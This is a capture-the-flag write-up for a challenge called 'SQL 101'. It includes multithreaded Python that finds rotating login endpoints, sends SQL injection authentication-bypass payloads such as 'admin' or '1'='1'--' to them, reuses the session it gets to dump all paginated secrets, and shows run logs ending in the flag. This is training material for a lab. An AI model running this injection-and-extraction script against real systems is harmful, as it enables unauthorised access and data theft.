

# SQL 101 CTF Challenge Writeup

**Solved by**: thorn5011

## tl;dr

1. Getting all endpoints
2. Finding the one with the SQL injection vulnerability
3. Getting a session token
4. Paginate through all "secret" pages
5. ????
6. PROFIT!!!


## Intro

Based off the challenge description we know the following:
- We know we have 60 seconds before our sessions timeout
- Login endpoints rotate each 30 seconds

This seems a bit annoying, but we'll try. Since the challenge is called "SQL 101", we can be *pretty* certain that there will be a SQL injection somewhere.

## Login

The URL https://dragonslayerz-70ff-allthoseforms.ept.gg/login show us a loooot of logins.. there will be one manual testing here.. :(



It is probably not a hard injection to find since there are other challenge parameters to take into consideration so we will just test a few simple ones from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass).

Endpoint example: `https://dragonslayerz-70ff-allthoseforms.ept.gg/login/oSqsOlTWk5` where `oSqsOlTWk5` will be unique for each endpoint and it changes every 30 seconds. We can extract them with python -> `re.findall(r'action="/login/(.+?)"', response.text)`.

Since we have a short time before the endpoints rotate and we have ~100 of them to hit, we'll use threads in python.

```py

injects = [
    "admin' or '1'='1'--",
    "admin' or '1'='1",
    "admin' or '1'='1'#",
    ## ...
]


def get_endpoints() -> list:
    response = requests.get(url)
    res = re.findall(r'action="/login/(.+?)"', response.text)
    return res


def check_for_sql(endpoint:str, inject:str):
    full = url + "/" + endpoint
    response = session.post(full, data={"username": inject, "password": "a" + inject}, allow_redirects=True)
    if "Invalid login credentials" in response.text:
        return True
    elif "Either the server is overloaded" in response.text:
        return False
    else:
        print(f"[!] SQL Injection found at {endpoint} with: >> {inject} <<")
        global vuln_endpoint
        vuln_endpoint = endpoint
        return True

def run_check(endpoint):
    for inject in injects:
        while check_for_sql(endpoint, inject) is False:
            time.sleep(0.3)

def find_endpoint():
    endpoints = get_endpoints()
    threads = []
    for endpoint in endpoints:
        thread = threading.Thread(target=run_check, args=(endpoint,))
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()


if __name__ == "__main__":
    find_endpoint()
```
Log: `[!] SQL Injection found at d2jRjJQxz3 with: >> admin' or '1'='1'-- <<`

This gives ut what we need - `admin' or '1'='1'--` will be used to inject.

## Beyond the login

After a successful login we can find a reference to some "API docs"

```html
We are currently building out features, but check out the <a href="/api-docs" style="text-decoration: none; color: inherit;">API documentation</a> if you can't wait.
```

We also get a `session` we can use..for 60 seconds.. I assume there will be some reason for us to refresh it down the line.

```py
{
    'User-Agent': 'python-requests/2.32.3', 
    'Accept-Encoding': 'gzip, deflate, zstd',
    'Accept': '*/*',
    'Connection': 'keep-alive',
    'Cookie': 'session=eyJ1c2VyX2lkIjoxfQ.ZyvZ5g.esIJ0y3NmtmN2CP2pRgCHi8LHHQ'
}
```

## API docs

Looking at the docs we can see an endpoint -> `api/secrets`.
```html
<pre>
<b>Parameters:</b>
- <b>page</b> (optional): The page number to retrieve (default is 1).
- <b>page_size</b> (optional): The number of secrets per page. Can be 5, 10, or 20 (default is 5).

<b>Returns:</b> A JSON object with the following fields:
- <b>page</b>: The current page number.
- <b>page_size</b>: The number of secrets per page.
- <b>total_pages</b>: The total number of pages available.
- <b>secrets</b>: A JSON array of message objects for the current page.

<b>Example request:</b>
curl -X GET "http://example.com/api/secrets?page=2&page_size=10"

<b>Example response:</b>
{
"page": 2,
"page_size": 10,
"total_pages": 5,
"secrets": [
    {
    "id": 11,
    "text": "Message on page 2"
    },
    {
    "id": 12,
    "text": "Another message on page 2"
    }
]
}
</pre>
```

## Secrets

This means we can try and grab all the secrets as longs as we do some pagination on the `page` parameter.

```py
def get_secrets(session):
    data = []
    full = url.replace("/login","/api/secrets")
    response = session.get(full, params={"page": 1, "page_size": 20})
    for i in range(1, response.json()["total_pages"]):
        print(f"[+] Getting page {i}")
        response = session.get(full, params={"page": i, "page_size": 20})
        try:
            data.append(response.json()["secrets"])
        except requests.exceptions.JSONDecodeError:
            print(f"[!] Failed to decode JSON on page {i}")
            if "Your flash messages here" in response.text:
                print(f"[+] Found flash messages, sessions timed out")
            session = goinject() ## refresh session
    print(f"[+] Secrets: {len(data)}")
    with open("results.txt", "w") as file:
        file.write(f"[+] Secrets:\n{json.dumps(data, indent=4)}\n\n")
```

One "secret" looks like this `{'id': 1, 'text': 'Like new make admit smile between buy wall.'}`. There will for sure be a flag there so we will try and extract it.

## Results

Putting this all together we get the final [script](solve.py), which when executed leaves us with the flag.

```sh
[+] Starting..
[!] SQL Injection found at qlw08LFFv9 with: >> admin' or '1'='1'-- <<
[+] Successfully injected at 'https://dragonslayerz-70ff-allthoseforms.ept.gg/login/qlw08LFFv9'
[+] Total pages: 126
[+] Starting to get secrets..
.................................................
[!] Failed to decode JSON on page 50, refreshing session

[!] SQL Injection found at lMy0Uxq5yE with: >> admin' or '1'='1'-- <<
[+] Successfully injected at 'https://dragonslayerz-70ff-allthoseforms.ept.gg/login/lMy0Uxq5yE'
................................................................
[!] Failed to decode JSON on page 114, refreshing session

[!] SQL Injection found at fMP4ZemaCm with: >> admin' or '1'='1'-- <<
[+] Successfully injected at 'https://dragonslayerz-70ff-allthoseforms.ept.gg/login/fMP4ZemaCm'
...........

[+] Found secret: EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}
[+] Time taken: 116.41542053222656
[+] Done
```
